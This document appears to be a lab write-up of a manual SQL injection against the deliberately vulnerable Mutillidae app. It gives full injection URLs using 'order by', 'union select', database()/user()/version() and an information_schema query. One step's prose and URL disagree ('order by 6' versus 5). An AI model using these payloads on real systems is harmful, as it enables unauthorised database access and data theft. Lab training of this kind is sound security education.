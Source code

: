 The browser url of this info page need to be modified with the url as below:

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27order%20by%205%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT :


After adding the order by 6 into the existing url , the following error statement will be obtained:
![alt text](img/19.png)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27order%20by%205%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT :

![alt text](img/20.png)

 As it is having 5 columns the query worked fine and it provides the correct result


Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5).

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

## OUTPUT :
![alt text](img/21.png)


http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,2,3,4,5%23&password=&user-info-php-submit-button=View+Account+Details

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.


http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT :
![alt text](img/22.png)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’
